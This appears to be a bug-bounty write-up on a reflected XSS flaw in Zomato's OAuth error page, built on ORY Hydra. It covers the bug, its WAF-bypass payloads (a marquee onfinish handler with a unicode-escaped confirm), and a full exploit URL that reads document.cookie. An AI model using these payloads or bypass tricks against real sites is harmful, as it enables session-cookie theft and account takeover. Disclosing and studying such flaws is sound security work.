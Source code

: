 * The parameter value was reflected on the page,source code, So he checked for <,> to see any filter there or not  

![](https://miro.medium.com/max/1366/1*UNe7QIF0GlqNOlUnjO8h0g.png)

* So, there was no filter
* But once he used xss payloads, that was not working because of WAF
* He checked for waf bypass reports for XSS and this payload worked for thim -> <center>`<marquee loop=1 width=0 onfinish=alert`1`>XSS</marquee>`</center>
* But still he didn’t able to access DOM because of alert(),confirm(),prompt() were getting blocked by WAF
* He even tried URL ENCODING
* He checked XSS Cheatsheet -> https://github.com/s0md3v/AwesomeXSS
* Payload from that cheatsheet -> co\u006efirm()
* That payload worked for him

`Prateek Tiwari mentioned that problem with HYDRA, which is an OAuth 2.0 and OpenID Connect Provider which zomato using for authentication on their service`

Side note from my side -> we can also use cheatsheet from ->
https://portswigger.net/research/one-xss-cheatsheet-to-rule-them-all
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Report -> https://hackerone.com/reports/456333


Heyy there,

I have found a xss in auth2.zomato.com

Full url:
https://auth2.zomato.com/oauth2/fallbacks/error?error=xss&error_description=xss&error_hint=xss

Vulnerable Parameters: All available parameters are vulnerable

XSS Payload: `<marquee loop%3d1 width%3d0 onfinish%3dco\u006efirm(document.cookie)>XSS<%2fmarquee>`

Steps To Reproduce the xss

Just copy paste and load this url in your firefox browser and tadaa you will get the xss popup

`https://auth2.zomato.com/oauth2/fallbacks/error?error=xss&error_description=xsssy&error_hint=%3Cmarquee%20loop%3d1%20width%3d0%20onfinish%3dco\u006efirm(document.cookie)%3EXSS%3C%2fmarquee%3E`

Impact

An attacker can send this url with payload to an already login user and can steal the cookie.

From there -> https://medium.com/@sudhanshur705/cve-2019-8400-reflected-xss-in-ory-hydra-6b785000d9ff

Let’s move to POC

Just take an example this is the url:

`https://auth2.site.com/oauth2/auth?response_type=code&client_id=123dsds-90be-49d2-ac52-4a8b1a25bcf1&redirect_uri=https://site.com/user/oauth2/redirect_uri&state=2BHoBnVFFKP29L6SerHgEb7OCn21as`

Make some changes in the redirect_uri parameter value, and you will be redirected to an Error page.
